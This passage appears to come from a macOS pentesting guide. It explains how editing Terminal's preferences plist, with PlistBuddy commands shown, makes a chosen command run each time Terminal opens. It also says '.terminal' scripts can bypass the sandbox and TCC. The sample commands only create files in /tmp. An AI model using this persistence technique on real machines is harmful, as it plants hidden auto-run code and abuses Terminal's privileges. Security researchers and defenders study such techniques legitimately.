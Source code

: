 This config is reflected in the file **`~/Library/Preferences/com.apple.Terminal.plist`** like this:
```bash
[...]
"Window Settings" => {
"Basic" => {
"CommandString" => "touch /tmp/terminal_pwn"
"Font" => {length = 267, bytes = 0x62706c69 73743030 d4010203 04050607 ... 00000000 000000cf }
"FontAntialias" => 1
"FontWidthSpacing" => 1.004032258064516
"name" => "Basic"
"ProfileCurrentVersion" => 2.07
"RunCommandAsShell" => 0
"type" => "Window Settings"
}
[...]
```
So, if the plist of the preferences of the terminal in the system could be overwritten, the the **`open`** functionality can be used to **open the terminal and that command will be executed**.

You can add this from the cli with:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" 'touch /tmp/terminal-start-command'" $HOME/Library/Preferences/com.apple.Terminal.plist
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"RunCommandAsShell\" 0" $HOME/Library/Preferences/com.apple.Terminal.plist

# Remove
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" ''" $HOME/Library/Preferences/com.apple.Terminal.plist
```
{% endcode %}

### Terminal Scripts / Other file extensions

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
* TCC bypass: [✅](https://emojipedia.org/check-mark-button)
* Terminal use to have FDA permissions of the user use it

#### Location

* **Anywhere**
* **Trigger**: Open Terminal

#### Description & Exploitation

If you create a [**`.terminal`** script](https://stackoverflow.com/questions/32086004/how-to-use-the-default-terminal-settings-when-opening-a-terminal-file-osx) and opens, the **Terminal application** will be automatically invoked to execute the commands indicated in there. If the Terminal app has some special privileges (such as TCC), your command will be run with those special privileges.
